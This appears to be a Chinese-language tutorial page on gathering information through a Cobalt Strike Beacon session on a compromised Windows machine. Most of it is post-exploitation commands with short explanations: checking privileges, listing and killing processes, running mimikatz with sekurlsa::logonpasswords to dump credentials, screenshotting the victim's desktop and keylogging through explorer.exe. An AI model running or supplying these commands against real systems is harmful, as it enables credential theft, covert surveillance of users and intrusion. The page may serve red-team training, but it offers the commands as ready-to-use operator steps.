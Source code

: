```yaml
---
title: "Cobalt Strike Beacon 基础信息搜集"
id: zhfly3641
---
```


# Cobalt Strike Beacon 基础信息搜集

```
getuid `查看当前 shell 权限,如下可以看到,当前是以系统内建的 administrator 用户权限在操作` 
```

```
ps 

查看当前系统进程列表 [ 默认它已经事先把 64 位和 32 进程区分清楚了,这也是为什么不去用系统自带的 tasklist 工具的原因,比如,后面某些功能就需要你明确指明目标进程是 32 还是 64 位的 ] 
```

![image](../img/4ca2cc373164de3628c92cf57c3b05a9.png)

```
kill 3292 `杀掉指定 id 的进程,比如,杀掉这个记事本进程` 
```

```
shell query user 

执行 win 系统的各种原生 cmd 命令,命令参数正常带上执行即可 
```

```
shell mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" "exit" 

shell 也可以用来执行自己上传的一些 命令行程序,比如,mimikatz.exe 执行完之后它会把执行的结果再回显回来 
```

![image](../img/0079e145d414067e35b31169c6ff8bce.png)

```
execute mimikatz.exe "log" "privilege::debug" "sekurlsa::logonpasswords" "exit" `跟 shell 功能有所不同,同样都是执行指定命令行程序,但 shell 会把执行结果回显回来,而 execute 则不会,至于到底执行成功没,还需要用其它方式来判断` 
```

![image](../img/b458f4c32b0953e4305ae53af1687792.png)

> 特别注意这个截屏功能,因为我们现在是在正常的 administrator 用户权限下操作的[标准用户环境],所以,通过 explorer.exe 就直接能截取到目标桌面,如果你当前是在 system 权限下则必须先把自己降权或切换到一个正常的正在线系统用户权限上,这样才能正常截到目标桌面

```
screenshot x64 2656 1 `对用户桌面进行截屏` 
```

![image](../img/2413e74660b572a0bc1a311415ff5dc5.png)

![image](../img/bf154b6392ab3bcc73f18dee484afcba.png)

```
keylogger 2656 x64 `常规键盘记录,同样还是指定 explorer.exe 进程进行截获` 
```

![image](../img/c58e652aa28e1fa8b79a877cb059c100.png)

> 如下,我们看到中文显示乱码了,很正常,因为我们用的这个 CobaltStrike,几乎是原生的默认也没有调整编码,所以,不用太在意,后期等整个系列全部更新完,视情况也许会给大家一个调整好的用

![image](../img/30c12349f75ca25b230767234844b7ff.png)